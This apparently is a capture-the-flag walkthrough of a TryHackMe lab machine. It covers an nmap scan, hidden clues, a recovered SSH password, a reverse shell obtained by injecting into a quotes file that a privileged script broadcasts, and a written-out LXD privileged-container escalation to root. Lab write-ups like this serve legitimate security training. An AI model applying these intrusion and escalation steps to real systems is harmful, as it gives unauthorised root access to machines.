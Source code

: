 # Introduction

we first add a domain in /etc/hosts so we don't need to remember the IP
```bash
10.10.xx.xx botc.thm
```

# Enumeration

we do a nmap with some options :\
\
-T4 is for have more threads to accelerate the scan\
-p- is to scan all the ports\
-sV is to scan the version\
\
we run the scan as sudo so it's doing a SYN scan and not a full TCP connection so it's faster

```bash
sudo nmap -T4 -sV -p- botc.thm
```

we got these open ports
```bash
PORT   STATE SERVICE VERSION
21/tcp open  ftp     vsftpd 3.0.3
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel
```

decode the mp3 file with audacity by displaying the spectrum : 

we can cipher vigenere decode with the word : namelesstwo

<img width="868" alt="image" src="https://github.com/MaTe0r/tryhackme.com/assets/94843357/8a2b3612-9de9-451b-8af0-a50b43645377">



Dads Tasks - The RAGE...THE CAGE... THE MAN... THE LEGEND!!!!
One. Revamp the website
Two. Put more quotes in script
Three. Buy bee pesticide
Four. Help him with acting lessons
Five. Teach Dad what "information security" is.

In case I forget.... Mydadisghostrideraintthatcoolnocausehesonfirejokes

we can use to connect to ssh with weston user and this password : Mydadisghostrideraintthatcoolnocausehesonfirejokes

once connected, we are in the cage groups\
we can edit the file /opt/.dads_script/.files/.quotes\
this file is used by a cage script owner to do a wall of a random quote in the .quotes file

then we got a reverse shell with cage user\
now let's go to root with lxd ! we are in the group 


```
# import the image
lxc image import ./alpine*.tar.gz --alias myimage # It's important doing this from YOUR HOME directory on the victim machine, or it might fail.

# before running the image, start and configure the lxd storage pool as default 
lxd init

# run the image
lxc init myimage mycontainer -c security.privileged=true

# mount the /root into the image
lxc config device add mycontainer mydevice disk source=/ path=/mnt/root recursive=true

# interact with the container
lxc start mycontainer
lxc exec mycontainer /bin/sh
```

now we are root, we can flag in email backup

